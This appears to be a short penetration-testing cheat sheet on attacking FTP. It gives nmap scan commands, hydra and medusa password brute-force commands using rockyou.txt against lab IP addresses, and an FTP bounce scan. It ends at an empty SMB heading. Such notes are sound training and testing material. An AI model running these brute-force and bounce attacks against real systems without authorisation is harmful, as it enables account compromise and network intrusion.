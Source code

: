 ![Attacking Common Services Attack pattern](_attachments/Attacking%20Common%20Services%20Attack%20pattern.png)

## FTP

```shell
sudo nmap -sC -sV -p 21 192.168.2.142 
```

### Bruteforce

```shell
hydra -l user -P pws.list 10.129.203.7 ftp -v -V -t 1
```

### Protocol Specifics Attacks

Brute Forcing with Medusa

```shell
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 10.129.203.7 -M ftp
```

FTP Bounce Attack

```shell
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

## SMB
